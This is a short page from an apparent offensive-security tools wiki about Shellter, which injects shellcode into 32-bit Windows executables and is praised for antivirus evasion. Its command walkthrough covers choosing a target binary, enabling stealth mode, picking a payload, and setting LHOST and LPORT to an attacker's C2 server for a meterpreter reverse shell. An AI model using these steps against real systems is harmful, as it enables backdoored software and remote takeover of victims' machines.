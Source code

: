 ```yaml
---
title: "Shellter"
description: "Dynamic shellcode infection"
lead: ""
date: 2020-10-13T15:21:01+02:00
lastmod: 2020-10-13T15:21:01+02:00
draft: false
images: []
menu: 
  tools:
    parent: "attacker_tools"
weight: 20
toc: true
---
```


Shellter[^1] is a dynamic shellcode injection tool, and the first truly dynamic PE infector ever created.
It can be used in order to inject shellcode into native Windows applications (currently 32-bit applications only).
The shellcode can be something yours or something generated through a framework, such as Metasploit.

Even the default options offer impressive AV evasion capabilities.

## Installation
Download from: [https://www.shellterproject.com/download/](https://www.shellterproject.com/download/)

```bash
#start shellter
shellter 

#Choose Operation Mode
A

#PE Target 
/home/kali/...

#Enable Stealh Mode?
Y

#Use a listed pazload or custom:
L

#Select payload by index: (select preferred)
1 

#SET LHOST -> your c2 server ip
X.X.X.X 

#SET LPORT -> port your c2 server listen to
```

The provided binary will be replaced with the modified one. 
Next step is to open a meterpreter listener with the above parameters.


[^1]: [Shellter](https://www.shellterproject.com/introducing-shellter/)